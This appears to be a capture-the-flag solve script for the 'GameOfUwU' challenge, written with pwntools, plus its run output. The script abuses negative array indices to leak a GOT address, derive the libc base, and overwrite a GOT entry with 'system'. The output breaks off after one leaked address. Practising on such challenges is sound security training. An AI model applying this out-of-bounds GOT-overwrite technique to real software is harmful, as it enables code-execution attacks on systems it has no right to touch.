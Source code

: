
p.recvuntil(b"  1: Play    2: View Team    3: Edit Nickname    0: Exit\n  ")
p.sendline(b'3')
p.recvuntil(b"  Whose nickname do you want to edit? (Please enter an index)\n  ")

p.sendline(b'-2')
p.recvuntil(b"  Please get a new name to ")

# parse the leaked address to int, hex and potentially further conver to other formats 
GOT_leak = int.from_bytes(p.recvuntil(b"!", drop = True), 'little')
libc.address = GOT_leak - libc.sym['rand'] # calculate the libc base
print(hex(GOT_leak)) # debugging 
print(hex(libc.address)) # debugging 
#print(hex(libc.sym['rand']))


# preserving the leaked address, for a second entry to overwrite fgets (success)
preserved = GOT_leak.to_bytes(6, 'little')
p.sendlineafter(b"What is its new nickname?", preserved)


system_addr = libc.sym['system'] # calculate the offset of system 
print(hex(system_addr)) # debugging 


# Going to overwrite fgets, overwrite is possible know by manual test 
p.recvuntil(b"  1: Play    2: View Team    3: Edit Nickname    0: Exit\n  ")
p.sendline(b'3')
p.recvuntil(b"  Whose nickname do you want to edit? (Please enter an index)\n  ")

p.sendline(b'-7')
p.recvuntil(b"  Please get a new name to ")
payload = b'A' * 8 + system_addr.to_bytes(6, 'little') # index 6 to access srand and write downwards (up acutally)
p.sendlineafter(b"What is its new nickname?", payload)




┌──(kali㉿kali)-[~/Desktop/CTF/GameOfUwU]
└─$ python solve.py
[+] Starting local process './GameOfUwU_patched': pid 701390
[+] Opening connection to chal.firebird.sh on port 35029: Done
[*] '/home/kali/Desktop/CTF/GameOfUwU/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[*] '/home/kali/Desktop/CTF/GameOfUwU/GameOfUwU_patched'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
0x7fddd804c760